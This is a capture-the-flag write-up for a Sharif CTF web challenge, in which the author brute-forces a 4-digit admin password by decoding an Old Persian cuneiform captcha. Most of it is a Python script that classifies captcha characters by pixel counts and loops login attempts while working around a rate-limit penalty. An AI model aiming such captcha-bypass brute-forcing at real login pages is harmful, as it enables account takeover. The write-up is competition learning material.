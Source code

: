 #Old persian cuneiform captcha

**Category:** Web
**Points:** 250

**Description:**

Old Persian cuneiform is a semi-alphabetic cuneiform script that was the primary script for the old persian language. You could get more information on following links, 

1- http://www.ancientscripts.com/oldpersian.html

2- https://en.wikipedia.org/wiki/Old_Persian_cuneiform. 

A web-based collections management for a museum has some extremely valuable information if one has admin user access. 

Site: 'http://ctf.sharif.edu:32455/chal/oldpersian/e800effeaf558f54/'

We found that the "admin" user have a 4-digit password. But they use a captcha made of 10 old persian characters. One has to use the correspondence between symbols and strings to pass theye captcha verification (use "trans.png"). 
Log in as "admin" to find the flag.

the flag is in the fomat: [Your flag is: flagflagflag...] (without braces)


##Solution:

We are given a web page with custom Persian-Captcha. We should BruteForce it, by first we should find a way to decode captcha.
So our tasks are:

1 - Write a script to decode captcha

2 - Send a GET request to /captcha url, save the captcha.image. Decode it and send a POST request to /login/submit url with captcha value in it's data

3 - Iterate between 0001-9999 integers for password value and do 1&2 steps

![Image of main_page]

I used a custom method by mine for decoding captcha's. But I know there should be lot's of other methods using machine-learning & ...
But it's CTF & it's all about time. So i used this method:

I splitted each captcha image to 6 images (cause it contains 6 persian-ancient characters). Convert it to gray-image, Calculated black-bit in each image and
tried to define a algorithm to detect each character.
Some of Character have specific number of black digits like 'E'. I assumed all the iamges that have less that 160 black-digits, are corresponded to 'E' and etc.
And for characters that have close number of black-digits, i calculate black-bit in each half: top,bottom,right,left and tried to define statement that
describe each character.(It's not the best method ---> believe me: i know. but that shit worked for me.)

Here is the code i used:

```python
import os,sys
from PIL import Image
import mechanize
import cookielib
from bs4 import BeautifulSoup
import urllib

base_url = 'http://ctf.sharif.edu:32455/chal/oldpersian/6a18d45a981e0219/'
captcha_link = base_url + 'captcha/'
login_link = base_url + 'login/submit/'

password_from = int(sys.argv[1])
password_to = int(sys.argv[2])

captcha_image_name = 'test.jpg'
alphabet_chars = 'ABCDEFGHIJKLM'
captcha_char_numbers = 6

def get_captcha(br):
    result = br.open(captcha_link)
    img = open(captcha_image_name,'wb')
    img.write(result.read())
    img.close()

def calc_black_pixs(pix_list):

    this_y = len(pix_list)
    this_x = len(pix_list[0])
    result = 0
    for i in pix_list:
        for j in i:
            if j == 0:
                result += 1
    return result

def calc_each_quarter_black_pixels(pix_list):
    result = [[0,0],[0,0]]      # [1_1, 1_2], [2_1, 2_2]
    for y in pix_list:
        y_index = pix_list.index(y)
        for x in y:
            x_index = y.index(x)
            if x == 0:
                result_x = 0
                if x_index > 40:
                    result_x = 1
                result_y = 0
                if y_index > 40:
                    result_y = 1

                result[result_y][result_x] += 1
    return result

def proccess_captcha():
    jpg_image = Image.open(captcha_image_name)
    jpg_tmp = jpg_image.convert('L')
    gray_image = jpg_tmp.point(lambda x: 0 if x<128 else 255, '1')
    mx,my = gray_image.size
    pixels = gray_image.load()

    char_list = []
    for index in range(captcha_char_numbers):
        tmp_char_list = []
        for y in range(my):
            tmp = []
            for x in range(80*index,80*(index+1)):
                this_pix = pixels[x,y]
                tmp.append(this_pix)
            tmp_char_list.append(tmp)
        char_list.append(tmp_char_list)

    result = ''
    for index in range(captcha_char_numbers):
        bp = calc_black_pixs(char_list[index])
        bp_quarters = calc_each_quarter_black_pixels(char_list[index])
        bp_left_sum = (bp_quarters[0][0]+bp_quarters[1][0])
        bp_right_sum = (bp_quarters[0][1]+bp_quarters[1][1])
        bp_top_sum = sum(bp_quarters[0])
        bp_bottom_sum = sum(bp_quarters[1])

        if bp > 700:
            result += 'H'
        elif bp <= 160:
            result += 'E'
        elif bp >= 450 and bp <= 470:
            if bp_top_sum > bp_bottom_sum:
                if bp_bottom_sum < 200:
                    result += 'D'
                else:
                    if bp_left_sum > bp_right_sum:
                        result += 'K'
                    else:
                        result += 'B'
            else:
                if bp_left_sum > bp_right_sum:
                    result += 'K'
                else:
                    result += 'B'
        elif bp >= 540 and bp <= 560:
            if bp_top_sum > bp_bottom_sum:
                if bp_left_sum > bp_right_sum:
                    result += 'L'
                else:
                    result += 'M'
            else:
                result += 'L'
        elif bp > 500 and bp < 520:
            result += 'J'
        elif bp >= 640 and bp < 700:
            result += 'F'
        elif bp >= 520 and bp < 540:
            result += 'I'
        elif bp >= 625 and bp < 640:
            result += 'G'
        elif bp > 430 and bp < 450:
            result += 'K'
        elif bp > 600 and bp < 625:
            result += 'A'
        elif bp > 560 and bp < 600:
            result += 'C'
        else:
            result += '-'
    return result

def send_post(br, password, captcha):
    params = {'username':'admin', 'password':password, 'captcha':captcha}
    data = urllib.urlencode(params)
    response = br.open(login_link, data)
    result = response.read()
    if 'Invalid captcha' in result:
        return False
    if 'Login failed' in result:
        return 'failed'
    if 'You are in penalty time' in result:
        return 'penalty'
    return result

#passlist = range(password_from-1,password_to+1)
import itertools
chars = '0123456789'
passlist = []
res = itertools.permutations(chars,3)
for i in res:
    passlist.append('0'+''.join(i))

for password in passlist:
    state = False
    while not state:
        br = mechanize.Browser()
        br.set_handle_robots(False)
        br.set_handle_equiv(True)
        br.set_handle_referer(True)
        br.set_handle_redirect(True)
        cj = cookielib.LWPCookieJar()
        br.set_cookiejar(cj)
        get_captcha(br)
        this_captcha = proccess_captcha()
        state = send_post(br, password, this_captcha)
        if state == False:
            continue
        else:
            if state == 'failed':
                print '[-] Failed to login with %s'%password
                break
            elif state == 'penalty':
                print '[-] Failed cause of penatly time'
                print password
                raw_input('wait here...')
                break
            else:
                print state
                print '\n[+] Password is %s'%password
                raw_input('got it!\n\n')
```

But the real problem is that after almost 1000 post request, you will be banned for like 2000 seconds and you should wait that time for the next part of brute-force attack.
(Really!!!!. you kidding me.)
Because of this timing i wasn't able to get the flag in right time, And got it after the competition was done. But cheers to all who joined this challenge.

I really enjoyed it and didn't much mention time to other web challenges, CAUSE IT WAS A FUN CHALLENGE.
